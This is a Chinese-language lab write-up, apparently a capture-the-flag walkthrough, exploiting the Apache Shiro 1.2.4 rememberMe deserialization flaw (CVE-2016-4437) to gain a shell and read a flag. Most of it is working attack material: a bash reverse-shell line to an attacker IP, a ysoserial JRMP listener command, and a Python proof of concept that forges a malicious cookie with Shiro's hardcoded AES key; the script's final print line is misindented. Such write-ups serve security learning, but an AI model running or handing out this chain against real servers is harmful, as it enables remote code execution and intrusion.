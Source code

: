 # Apache Shiro 1.2.4反序列化漏洞（CVE-2016-4437）by [anonymity3712](https://github.com/anonymity3712)

## 漏洞描述

Apache Shiro默认使用了CookieRememberMeManager，其处理cookie的流程是：得到rememberMe的cookie值 >  Base64解码–>AES解密–>反序列化。然而AES的密钥是硬编码的，就导致了攻击者可以构造恶意数据造成反序列化的RCE漏洞。

## writeup

访问靶机地址

![](./20200515192039.png)

攻击机监听4437端口

![](./20200515192250.png)

访问 http://www.jackson-t.ca/runtime-exec-payloads.html 将准备执行的命令进行加密

反弹shell指令

```
bash -i >& /dev/tcp/攻击机IP/4437 0>&1
```

![](./20200515192539.png)

运行指令（通过 ysoserial中的JRMP监听模块，监听 6666 端口并执行反弹shell命令，ysoserial自行寻找下载）

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 6666 CommonsCollections4 '加密的反弹shell指令'
```

![](./20200515193053.png)

利用POC伪造cookie内容

python shiro.py 攻击者IP:攻击者监听的java端口

![](./20200515193242.png)

POC
```
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.6-SNAPSHOT-all.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])    
print "rememberMe={0}".format(payload.decode())
```

发送伪造的cookie

```
http 目标登入地址 'Cookie:上一步生产的cookie'
```

![](./20200515193549.png)

反弹shell获取flag

![](./20200515193835.png)